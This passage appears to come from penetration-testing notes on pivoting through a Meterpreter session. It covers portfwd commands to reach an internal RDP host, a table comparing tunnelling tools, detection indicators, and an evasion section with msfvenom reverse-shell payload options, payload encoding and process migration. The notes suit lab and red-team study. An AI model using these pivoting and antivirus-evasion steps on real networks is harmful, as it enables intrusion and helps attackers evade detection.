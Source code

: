 ### Reduce Latency

```bash
# Use portfwd instead of SOCKS when possible
# Direct port forward = faster than proxy routing
portfwd add -l 3389 -p 3389 -r 172.16.5.19
xfreerdp /v:localhost:3389  # Faster than proxychains
```

---

## Comparison with Other Methods

| Feature | Meterpreter | [[SSH Socks Tunnel PF\|SSH]] | [[SOCKS5 Tunneling with Chisel\|Chisel]] |
|---------|-------------|-----|---------|
| Speed | Slow | Fast | Medium |
| Stealth | Low (AV) | High | Medium |
| Setup | Easy (MSF) | Easy | Easy |
| Requirements | Meterpreter | SSH access | HTTP egress |
| MSF Integration | Native | Proxychains | Proxychains |
| Stability | Medium | High | High |

**Use Meterpreter When:**
- Already have Meterpreter session
- Using Metasploit modules extensively
- Don't want additional binaries
- Need MSF-native pivoting

**Use Alternatives:**
- [[SSH Socks Tunnel PF|SSH]]: Want speed and stealth, have SSH access
- [[SOCKS5 Tunneling with Chisel|Chisel]]: SSH blocked, need HTTP tunnel
- [[Remote-Reverse Port Forwarding with SSH|SSH Reverse]]: Specific port forward needed

---

## Operational Security

### Detection Indicators
- Meterpreter payload on disk/memory
- Unusual Metasploit framework signatures
- Encrypted traffic to known C2 IPs
- Reverse TCP connections
- Suspicious process behavior

### Evasion Techniques
```bash
# Use stageless payload (no second connection)
msfvenom -p windows/x64/meterpreter_reverse_tcp ...

# Use HTTPS for encryption
set payload windows/x64/meterpreter/reverse_https

# Encode payload
msfvenom -p ... -e x64/xor_dynamic -i 3

# Migrate to legitimate process
meterpreter > migrate [pid]
```

---